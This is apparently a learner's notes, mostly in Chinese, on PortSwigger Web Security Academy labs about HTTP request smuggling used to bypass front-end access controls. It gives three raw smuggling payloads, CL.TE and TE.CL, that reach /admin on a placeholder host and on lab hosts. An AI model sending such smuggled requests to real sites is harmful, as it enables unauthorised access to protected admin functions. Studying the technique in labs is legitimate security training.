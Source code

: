 ### Exploiting HTTP request smuggling vulnerabilities

#### Using HTTP request smuggling to bypass front-end security controls

允许的请求被转发到后端服务器，在那里它们被视为已通过前端控件。

假设允许当前用户访问/home，但不允许访问/admin。他们可以使用以下请求攻击绕过此限制

```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

lab1：

```http
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

lab2：

**十六进制大小比数出来的大1**

```http
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
